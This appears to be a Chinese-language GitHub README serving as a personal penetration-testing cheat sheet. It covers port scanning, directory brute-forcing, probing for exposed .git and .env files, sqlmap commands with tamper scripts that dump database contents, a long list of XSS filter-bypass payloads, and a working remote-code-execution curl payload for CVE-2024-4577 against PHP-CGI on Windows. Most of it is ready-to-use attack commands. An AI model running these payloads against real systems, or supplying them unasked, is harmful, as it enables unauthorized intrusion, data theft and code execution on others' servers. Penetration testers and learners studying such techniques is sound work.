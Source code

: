 # Hitmap-ver.1

## 掃描、資訊蒐集

### 工具
  - rustscan
    -  可快速掃出目標開了哪些 Port
    -  Kali 上面沒有，亦無法直接 apt install
    -  安裝 Step
        - Step 1. 複製網址到Kali的瀏覽器進行下載
            ```sh
            https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb
            ```
        - Step 2. 開終端機
            ```sh
            cd Downloads
            ls
            ```
        - Step 3. 把下載的檔案開啟權限
            ```sh
            sudo chmod +x rustscan_2.0.1_amd64.deb
            ```
        - Step 4. 安裝他的套件
            ```sh
            sudo dpkg -i rustscan_2.0.1_amd64.deb
            ```
        - Step 5. 完成安裝 or 出現報錯
          - 沒報錯跳過這步 
            ```sh
            sudo apt update
            sudo apt upgrade
            ```
    - **使用方法**
      ```zsh
      rustscan -a ip or domain
      ```
      ![image](https://github.com/Kazusa613732/Hitmap-ver.1/blob/main/img/rustscan1.png)
      
  - nmap
    - **使用方法**
      - 作業系統、服務版本
        ```sh
         nmap -A ip or domain
        ```
      - 指定port
        ```sh
         nmap -A -p22,80,1000 ip
        ```
      - 很多...未來待補
        
  - nuclei
    -  弱掃工具（效果待確）
    -  Kali 上面沒有，可直接 sudo apt install nuclei
    -  **使用方法**
        ```sh
        nuclei -u url 
        ```
  - Wappalyzer（Chrome插件）
    -  可以看到網站是用那些框架、套件、部分版本
  - DotGit（Chrome插件）
    -  可以偵測到有沒有.git洩漏
    -  有的話，可以透過 Kali 安裝 Githack 來查看
    -  安裝
       ```sh
       git clone https://github.com/lijiejie/GitHack.git
       ```
    -  **使用方法**
      ```sh
      python Githack.py URL/.git
      ```
## 目錄爆破

### 工具
  - dirsearch
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install dirsearch
      ```
    - **使用方法**
      ```sh
       dirsearch -u "url"
      ```
  - gobuster
    - Kali 上沒有，可自行安裝
      ```sh
      sudo apt install gobuster
      ```
    - **使用方法**
      - 待補
### 不該出現的頁面
  - .env
  - phpinfo
  - .git
  - CKfinder
  - cgi-bin
  - upload.php（進去看有沒有可以try的點）
  - login.php（進去看有沒有可以try的點）
  - .svn
  - etc..
  - 感覺奇怪的都去看

## Injection
### CRLF injection
  - [筆記](https://www.notion.so/CRLF-Injection-1b9997876c1380e4bc7cccad27ecd62f?pvs=4)
### SQL injection
  - [筆記](https://www.notion.so/SQL-Injection-1ba997876c138098bed3c44d005558b3?pvs=4)
  - 最最基本檢測方式
    - 在參數後輸入'進行測試，出現報錯、500error，基本上可以直接用SQLmap進行確認了
    - 利用不同編碼bypass
    - 'AND1=1，可測錯誤注入、盲注
  - SQLmap
    - **指令**
        ```sh
        #可以dump出所有資料庫名稱
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash --dbs
        #可以dump某一資料庫的資料表
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 --tables
        #可以dump出某一資料庫、資料表的欄位
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 --columns
        #可以dump出某一資料庫、資料表的欄位內容
        sqlmap -u “url” --random-agent --tamper space2comment,space2hash,space2mssqlhash -D dbs名稱 -T tb名稱 -C c欄,c欄 --dump
        #其他參數
        --delay 1（延遲一秒）、--level 1~5、--risk 1~5（更多注入手段會更久）
        ```
  ### XSS
   - 常見Payload
       ```js
         #Basic
        <script>alert('XSS')</script>
        <scr<script>ipt>alert('XSS')</scr<script>ipt>
        "><script>alert('XSS')</script>
        "><script>alert(String.fromCharCode(88,83,83))</script>
        <script>\u0061lert('22')</script>
        <script>eval('\x61lert(\'33\')')</script>
        <script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
        <object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">
        
        #img
        <img src=x onerror=alert('XSS');>
        <img src=x onerror=alert('XSS')//
        <img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
        <img src=x:alert(alt) onerror=eval(src) alt=xss>
        "><img src=x onerror=alert('XSS');>
        "><img src=x onerror=alert(String.fromCharCode(88,83,83));>
        <><img src=1 onerror=alert(1)>
        
        #svg
        <svgonload=alert(1)>
        <svg/onload=alert('XSS')>
        <svg onload=alert(1)//
        <svg/onload=alert(String.fromCharCode(88,83,83))>
        <svg id=alert(1) onload=eval(id)>
        "><svg/onload=alert(String.fromCharCode(88,83,83))>
        "><svg/onload=alert(/XSS/)
        <svg><script>alert('33')
        <svg><script>alert&lpar;'33'&rpar;
        
        #div
        <div onpointerover="alert(45)">MOVE HERE</div>
        <div onpointerdown="alert(45)">MOVE HERE</div>
        <div onpointerenter="alert(45)">MOVE HERE</div>
        <div onpointerleave="alert(45)">MOVE HERE</div>
        <div onpointermove="alert(45)">MOVE HERE</div>
        <div onpointerout="alert(45)">MOVE HERE</div>
        <div onpointerup="alert(45)">MOVE HERE</div>
       ```
  ### XXE Injection
  ## CVE 2024-4577
  - 此弱點影響安裝於 Windows 作業系統上所有的 PHP 版本
    - PHP 8.3 < 8.3.8
    - PHP 8.2 < 8.2.20
    - PHP 8.1 < 8.1.29
  - 常見之 Apache HTTP Server 加上 PHP 組合
  - 所有版本的 XAMPP for Windows 安裝也預設受此弱點影響
  - **Payload&RCE**
      ```sh
      curl -o - "URL/php-cgi/php-cgi.exe?%ADd+cgi.force_redirect%3d0+%ADd+cgi.redirect_status_env+%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input" --data '<?=`whoami & dir`;die();?>'
      ```
## LFI

## RF&一堆教材文件
 - https://github.com/swisskyrepo/PayloadsAllTheThings
